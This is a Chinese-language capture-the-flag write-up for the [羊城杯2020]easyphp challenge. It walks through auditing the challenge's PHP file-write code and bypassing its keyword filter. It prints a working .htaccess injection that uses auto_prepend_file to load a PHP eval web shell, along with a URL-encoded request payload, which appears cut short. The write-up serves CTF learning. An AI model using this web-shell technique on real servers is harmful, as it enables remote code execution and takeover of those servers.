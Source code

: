 # \[羊城杯2020]easyphp

## \[羊城杯2020]easyphp

## 考点

* .htaccess修改PHP配置
* 和[\[XNUCA2019Qualifier\]EasyPHP](xnuca2019qualifier-easyphp.md)一样，直接看它就行了

## wp

给了源码，审计

删除当前目录下除index.php外的所有文件，然后GET获取 `cotent` 和 `filename`

```php
$files = scandir('./'); 
foreach($files as $file) {
	if(is_file($file)){
		if ($file !== "index.php") {
			unlink($file);
		}
	}
} 
$content = $_GET['content'];
$filename = $_GET['filename'];
```

`cotent` 中不能有 `on html type flag upload file`，`filename` 中只能有字母和 `.`

```php
if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
    echo "Hacker";
    die();
}
$filename = $_GET['filename'];
if(preg_match("/[^a-z\.]/", $filename) == 1) {
    echo "Hacker";
    die();
} 
```

使用`.htaccess`，在`.htaccess`中可以设置php.ini的一些参数



在`.htaccess` 中使用`#` 进行单行注释，由于在代码中使用`.` 对content进行拼接，如果content最后加上`\` 就会把拼接的 给注释掉。再配合`#` 就可以注释掉拼接内容了。

接着是利用.htaccess写shell，将一句话写入到.htaccess的注释中，再利用它自动加载文件的特性加载.htaccess文件，从而加载一句话

content为

```
php_value auto_prepend_file ".htaccess"
# <?php eval($_GET[1]);?>\
```

由于file被过滤，可以使用`\` 绕过，就像Linux命令行那样，而换行可以使用`%0A` ，或者直接把下面这段进行URL编码

```
php_value auto_prepend_fi\
le ".htaccess"
# <?php eval($_GET['1']);?>\
```

payload

```
filename=.htaccess&content=php_value+auto_prepend_fi%5c%0ale+%22.htaccess%22%0a%23+%3c%
```

## 小结

1. 和[\[XNUCA2019Qualifier\]EasyPHP](xnuca2019qualifier-easyphp.md)一样，直接看它就行了
